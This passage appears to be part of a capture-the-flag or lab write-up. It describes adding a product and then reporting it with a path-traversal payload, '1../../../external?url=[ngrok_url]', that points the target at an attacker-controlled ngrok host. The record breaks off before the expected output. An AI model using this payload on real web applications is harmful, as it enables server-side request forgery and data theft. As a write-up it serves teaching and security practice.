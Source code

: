 We can use the following payload

![img](assets/proadd.png)

and once the product is added. Let's use the following payload to report it

```http
1../../../external?url=[ngrok_url]
```

After waiting for 1-2 mins we should get output like this 
